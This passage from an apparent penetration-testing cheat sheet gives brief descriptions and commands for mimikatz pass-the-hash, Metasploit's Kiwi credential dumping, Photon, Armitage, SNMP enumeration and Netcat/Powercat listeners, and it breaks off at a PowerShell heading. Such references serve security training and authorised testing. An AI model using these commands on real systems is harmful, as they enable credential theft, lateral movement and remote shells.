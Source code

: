     ```bash
    mimikatz sekurlsa::pth /user:Administrator /domain:example.com /ntlm:21306681c738c3ed2d615e29be1574a3 /run:cmd.exe
    ```
    

### Kiwi

- **Description:** A Metasploit extension for credential extraction.
- **Command:**
    
    ```bash
    meterpreter > load kiwi
    meterpreter > creds_all
    ```
    

### Photon

- **Description:** A web crawler for OSINT.
- **Command:**
    
    ```bash
    photon -u http://example.com
    ```
    

### Armitage

- **Description:** A GUI front-end for Metasploit.
- **Usage:** Launch Armitage and connect to a Metasploit instance.

### SNMPwalk/SNMPbulkwalk

- **Description:** Enumerates SNMP data.
- **Command:**
    
    ```bash
    snmpwalk -v 2c -c public 192.168.1.100
    snmpbulkwalk -v 2c -c public 192.168.1.100
    ```
    

### Netcat/Powercat

- **Description:** A networking utility for creating connections.
- **Command:**
    
    ```bash
    nc -lvnp 4444  # Listener
    powercat -l -p 4444 -v  # PowerShell alternative
    ```
    

### PowerShell
